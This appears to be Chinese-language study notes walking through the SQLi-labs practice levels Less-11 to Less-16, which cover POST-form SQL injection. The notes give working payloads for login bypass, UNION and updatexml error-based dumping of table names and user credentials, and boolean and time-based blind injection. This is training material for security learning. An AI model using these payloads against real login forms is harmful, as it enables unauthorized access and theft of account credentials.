




# Chapter-1-靶场关卡

Less-11:POST-Error Based-Single quotes-String

Less-12:POST-Error Based-Double quotes-String-with twist

Less-13:POST-Double Injection-Single quotes-String-with twist

Less-14:POST-Double Injection-Double quotes-String-with twist

Less-15:POST-Blind-Boolian/time based-Single quotes

Less-16:POST-Blind-Boolian/time based-Double quotes

**POST**：GET 注入是把参数放在 URL 地址栏传递；POST 注入则将参数放在 HTTP 请求体（表单）中提交，不会在浏览器地址栏显示。

# Chapter-2-靶场实操完整SQLi流程

## Less-11

后台原始SQL：`SELECT username, password FROM users WHERE username='$uname' and password='$passwd' LIMIT 0,1`

### 步骤一：

`localhost/Less-11/`

payload填在Username输入框，注释符用`#`，Password框统一填数字`1`，点submit提交

>注：Less-1到Less-10的GET型注入中，url地址栏要求输入的是id，而id是固定的1，2，3等数字，而接下来的POST型注入中，表单要求输入的账户名和其对应的密码我们是无法提前获知的，所以只能用`'`闭合，使Username为空，仅在语法上使其正确，但username=''这个账户名是不存在的，故只能在后面接上`or`，仅通过`or`后的语句正误来调试注入语句。关于password的值，因为这部分语句已经被前面的注释符注释掉了，所以只随便输一个简单的数字`1`来是内容完整即可。

### 步骤二：判断闭合类型

**payload:**`'`

单引号`'`闭合，注入点存在

### 步骤三：万能密码验证漏洞，直接登录

**payload:**`' or 1=1#`

注入生效，`#`成功注释掉后面单引号

### 步骤四：order by 查询字段数量

**payload:**`' order by 2#`

没有报错，SQL 语句能正常执行，只是没有匹配用户，所以是空白没有内容

**payload:**`' order by 3#`

报错，说明只有2 列

### 步骤五：Union 联合查询，爆出当前数据库名

**payload:**`' union select 1,database()#`

### 步骤六：爆出 security 库里面所有表名

**payload:**`' union select 1,group_concat(table_name) from information_schema.tables where table_schema='security'#`

### 步骤七：爆出 users 表所有字段名

**payload:**`' union select 1,group_concat(column_name) from information_schema.columns where table_schema='security' and table_name='users'#`

### 步骤八：脱库，读取 users 表全部账号 + 密码

**payload:**`' union select group_concat(username),group_concat(password) from users#`

## Less-12

后台原始SQL：`SELECT username, password FROM users WHERE username=("$uname") and password="$passwd" LIMIT 0,1`

流程与Less-11完全相同，只需在payload中用`")`代替`'`

## Less-13

后台原始SQL：`SELECT username, password FROM users WHERE username=('$uname') and password='$passwd' LIMIT 0,1`

### 步骤一：判断闭合类型和万能密码验证注入漏洞

**payload:**`'`

**payload:**`' or 1=1#`

**payload:**`')`

**payload:**`') or 1=1#`

Less-11/12 登录成功会打印账号密码文本；Less-13 成功只是不报错，没有文字回显，所以 union 联合查询拿不到数据，只能用报错注入。

### 步骤二：updatexml 报错注入 — 爆当前数据库名

**payload:**`') and updatexml(1,concat(0x7e,database()),1)#`

>注：concat()里面拼接一个0x7e(~)还是两个都行，无所谓

### 步骤三：爆出 security 库的表名（limit 逐条读取）

**payload:**`') and updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema='security' limit 0,1)),1)#`

第二个表名`limit 1,1`，第三个表名`limit 2,1`，第四个表名`limit 3,1`

打包一起查询：

**payload:**`') and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema='security')),1)#`

### 步骤四：爆出 users 表的字段名

**payload:**`') and updatexml(1,concat(0x7e,(select column_name from information_schema.columns where table_schema='security' and table_name='users' limit 0,1)),1)#`

第二个字段名`limit 1,1`，第三个字段名`limit 2,1`

打包一起查询：

**payload:**`') and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema='security' and table_name='users')),1)#`

### 步骤五：读取 users 表里账号密码

**payload:**`') and updatexml(1,concat(0x7e,(select concat(username,0x3a,password) from users limit 0,1)),1)#`

第二组账号密码`limit 1,1`，第三组账号密码`limit 2,1`，以此类推

## Less-14

后台原始SQL：`SELECT username, password FROM users WHERE username="$uname" and password="$passwd" LIMIT 0,1`

与Less-13相同，用`"`代替`')`即可

## Less-15

后台原始SQL：`SELECT username, password FROM users WHERE username='$uname' and password='$passwd' LIMIT 0,1`

### 步骤一：判断闭合类型和布尔盲注真假对照测试

**payload:**`'`

**payload:**`' or 1=1#`

页面出现登录成功图片（条件成立）

**payload:**`' or 1=2#`

页面出现登录失败图片（条件不成立）

关闭了 MySQL 报错输出！页面没有 SQL 报错信息，只有两张图片：成功图片 / 失败图片。updatexml 报错注入失效，只能用布尔盲注或者时间盲注。

### 步骤二：布尔盲注，手工猜数据库名

**payload:**`' or substr(database(),1,1)='s'#`

成功图片 = 字符匹配；失败图片 = 字符不对

依次测试字符：s e c u r i t y → security

### 步骤三：猜 security 库里面的表名

**payload:**`' or substr((select table_name from information_schema.tables where table_schema='security' limit 0,1),1,1)='e'#`

`limit 0,1`=emails；`limit1,1`=referers；`limit2,1`=uagents；`limit3,1`=users

### 步骤四：猜 users 表字段

**payload:**`' or substr((select column_name from information_schema.columns where table_schema='security' and table_name='users' limit 0,1),1,1)='i'#`

### 步骤七：猜 users 表账号密码

**payload:**`' or substr((select username from users limit 0,1),1,1)='d'#`

## Less-15(用时间盲注方法)

### 步骤一：先验证时间注入是否能生效（基础延时测试）

**payload:**`' or sleep(5)#`

浏览器等待大约 5 秒之后页面才加载完成，说明 `sleep()`成功执行，时间盲注可用。

### 步骤二：猜数据库名

**payload:**`' or if(substr(database(),1,1)='s',sleep(5),1)#`

页面延迟 5 秒 → 第一位就是s。

以此类推，得到security

### 步骤三：猜 security 库里面的表名

**payload:**`' or if(substr((select table_name from information_schema.tables where table_schema='security' limit 0,1),1,1)='e',sleep(5),1)#`

`limit 0,1` → 第一张表 emails

`limit 1,1 `→ 第二张 referers

`limit 2,1 `→ 第三张 uagents

`limit 3,1 `→ 第四张 users

### 步骤四：猜 users 表字段名

**payload:**`' or if(substr((select column_name from information_schema.columns where table_schema='security' and table_name='users' limit 0,1),1,1)='i',sleep(5),1)#`

`limit 0,1` → id

`limit 1,1 `→ username

`limit 2,1 `→ password

### 步骤五：猜 users 表里账号密码

**payload:**`' or if(substr((select username from users limit 0,1),1,1)='D',sleep(5),1)#`

延时 5 秒 = 字符匹配；立刻加载 = 字符不对。

修改`limit n,1`读取不同行，修改`substr()`第二个参数读取不同位置字符。

## Less-16

后台原始SQL：`SELECT username, password FROM users WHERE username=("$uname") and password=("$passwd") LIMIT 0,1`

Less-16和Less-15流程完全相同，只需把`'`改成`")`即可